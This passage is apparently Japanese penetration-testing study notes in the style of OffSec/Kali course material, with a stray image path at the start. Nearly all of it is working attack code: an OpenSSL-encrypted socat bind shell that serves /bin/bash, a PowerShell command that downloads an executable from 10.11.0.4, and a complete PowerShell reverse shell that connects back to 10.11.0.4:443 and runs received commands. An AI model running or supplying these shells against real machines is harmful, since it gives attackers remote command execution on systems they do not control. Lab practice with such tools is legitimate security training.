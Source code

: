 opensslを用いて鍵と証明書の生成。  
生成したものを.pemに変換してsocatで読み込めるようにする。  
```
kali@kali:~$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 36
2 -out bind_shell.crt
nGenerating a 2048 bit RSA private key
.....................+++
................................+++
writing new private key to 'bind_shell.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:Georgia
Locality Name (eg, city) []:Atlanta
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Offsec
Organizational Unit Name (eg, section) []:Try Harder Department
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
kali@kali:~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
```

```
受信側
kali@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin
/bash

送信側
C:\Users\offsec> socat - OPENSSL:10.11.0.4:443,verify=0
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
whoami
kali
```

## PowerShell
### ファイルのダウンロード
```
C:\Users\test> powershell -c (New-Object Net.WebClient).DownloadFile('http://10.11.0.4/rs.exe', 'rs.exe')
```

### reverse shell
```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```
